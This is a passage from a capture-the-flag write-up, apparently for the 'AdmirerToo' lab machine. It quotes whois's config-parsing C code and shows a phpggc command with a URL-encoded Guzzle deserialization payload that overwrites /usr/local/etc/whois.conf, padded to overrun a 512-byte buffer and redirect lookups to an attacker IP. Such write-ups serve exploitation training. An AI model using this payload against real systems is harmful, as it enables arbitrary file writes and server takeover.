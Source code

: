 Our configuration file isn't how we specified it though:
```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf    
[{"Expires":1,"Discard":false,"Value":"10.10.14.12 10.10.14.12\n"}]
```

How do we fix this? By going into how whois reads the config file, of course! Let's dive into the details.

**whois config**

The code for the `whois` executable isn't too hard to understand.
```

#ifdef CONFIG_FILE
const char *match_config_file(const char *s)
{
    FILE *fp;
    char buf[512];
    static const char delim[] = " \t";

    if ((fp = fopen(CONFIG_FILE, "r")) == NULL) {
	if (errno != ENOENT)
	    err_sys("Cannot open " CONFIG_FILE);
	return NULL;
    }

    while (fgets(buf, sizeof(buf), fp) != NULL) {
	char *p;
	const char *pattern, *server;
#ifdef HAVE_REGEXEC
	int i;
	regex_t re;
#endif

	if ((p = strpbrk(buf, "\r\n")))
	    *p = '\0';
```

This code snippet is the basis of how a config file is read by `whois`. It reads in 512 bytes at a time and moves onto the next line if there is a carriage return followed by a line feed. But wait; there's a max buffer size of 512 bytes? Also, two fields need to be on each line: the regex and server.  We can't have a third field, can we? So what we do is overrun the buffer and make it disregard the closing characters that are appended. Easiest way to do that is with some extra spaces. They never hurt anyone :P

Refactoring our gadget chain with some extra space, that's exactly what we get:
```
thehated@TRYHARDER:/dev/shm/phpggc$ ./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whois.conf    
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fe  
tc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3  
A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%  
3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A516%3A%22%22%7D%5D%2A10.10.14.12+10.10.14.12++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++  
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++  
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++  
++++++++++++++++++++++++++++++++++++++++++++++++++++++++%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```
